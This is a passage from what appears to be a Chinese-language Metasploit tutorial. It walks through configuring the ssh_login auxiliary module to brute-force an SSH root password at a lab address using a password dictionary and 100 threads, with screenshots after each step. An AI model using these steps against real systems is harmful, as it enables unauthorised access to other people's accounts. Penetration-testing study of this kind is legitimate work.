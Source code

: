 #### （3）使用 set 命令设置目标地址范围。

 msf auxiliary(ssh_login) > set rhosts 10.10.10.254

![ppp-20231128191448663](../img/Metasploit-review/ppp-20231128191448663.png)

#### （4）使用 set 命令设置参数 username 的值。

在这里仅尝试用户名为 root 的情况，因此代码如下：

 msf auxiliary(ssh_login) > set username root

![ppp-20231128191528700](../img/Metasploit-review/ppp-20231128191528700.png)

#### （5）使用 set 命令设置参数 pass_file 的值。

将名称为 words.txt 的密码字典放在了桌面，因此代码如下：

 msf auxiliary(ssh_login) > set pass_file /root/Desktop/words.txt

![ppp-20231128191551676](../img/Metasploit-review/ppp-20231128191551676.png)

#### （6）使用 set 命令设置并发线程的数量。

 msf auxiliary(ssh_login) > set threads 100

![ppp-20231128191604997](../img/Metasploit-review/ppp-20231128191604997.png)

#### （7）使用 run 命令来执行扫描。

 msf auxiliary(ssh_login) > run

![ppp-20231128192402211](../img/Metasploit-review/ppp-20231128192402211.png)
